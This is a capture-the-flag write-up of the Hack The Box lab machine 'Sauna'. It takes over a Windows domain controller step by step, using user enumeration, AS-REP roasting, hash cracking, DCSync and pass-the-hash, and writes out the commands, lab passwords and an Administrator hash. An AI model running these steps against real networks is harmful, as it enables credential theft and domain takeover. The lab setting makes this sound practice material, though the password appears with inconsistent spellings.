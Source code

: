 ![Sauna](https://labs.hackthebox.com/storage/avatars/f31d5d0264fadc267e7f38a9d7729d14.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [egotisticalSW](https://app.hackthebox.com/users/94858)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

```python
nmap -p- --open --min-rate 3000 -vvv -sS -Pn 10.10.10.175 -oG scan
/opt/extractports scan
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49695 -Pn -sCV 10.10.10.175 -oN ports
```

![image](https://github.com/user-attachments/assets/fd366729-1ec1-48b3-a86a-60ae529dc415)

-  I found the domain `EGOTISTICAL-BANL.LOCAL`, I added it to the file in the `hosts` file
- When I see port 53 open, I gather different information and find a subdomain.

```python
dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL any
```

![image](https://github.com/user-attachments/assets/9863699c-70f3-4eb4-b5d2-d5dda8f31fbe)

- Looking at the different pages I find one with names and surnames of potential users.

![image](https://github.com/user-attachments/assets/8ef3fdac-ff36-4db9-a104-3b0ba2d43240)

- Using the names and surnames found I create a dictionary of users that I will validate with kerbrute to find those that exist in the system. 

```python
./username-anarchy -i ../users > usuarios
/opt/kerbrute userenum  --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL /home/rufo/usuarios
```

![image](https://github.com/user-attachments/assets/35693abf-6086-45ea-9d5b-677d1f3300b2)

- I check if I can make a we ASREPRoast Attack with the found user. I get his TGT and manage to get his password in clear text.

```python
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users
hashcat -m 18200 TGT_fsmith /usr/share/wordlists/rockyou.txt 
```

- I verify the credentials and get access to the system through winrm to read the first flag.

```python
netexec winrm 10.10.10.175 -u fsmith -p Thestrokes23
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

![image](https://github.com/user-attachments/assets/05b88d2e-c6cb-4db6-ad55-6411a03e966b)

- At this point I run winpeas to get a broader view of the system I am dealing with. I notice in the output that there are some autologon credentials. I check if the password found belongs to a user and confirm that they belong to svc_loanmgr.

![image](https://github.com/user-attachments/assets/faf4cb13-11be-4276-9f91-9e38f3bf4594)

```python
netexec smb 10.10.10.175 -u svc_loanmgr -p Monkeymakestheworldground!
```

- At this point I collect information from the system in order to use bloodhound and look for possible routes to escalate my privileges.

```python
neo4j console
bloodhound &>/dev/null &
netexec ldap 10.10.10.175 -u fsmith -p Thestrokes23 --bloodhound --collection All --dns-server 10.10.10.175
```

- Thanks to bloodhound I see that I have enough permissions with svc_loanmgr to perform a DCSync attack and get the NTLM hash of the administrator user. With this I can do PtH, access the system and read the second flag.

![image](https://github.com/user-attachments/assets/c6748817-ec82-4071-a457-0b1e0ee46d73)

```python
netexec smb 10.10.10.175 -u svc_loanmgr -p Moneymakestheworldgoround! --ntds --user Administrator
evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```
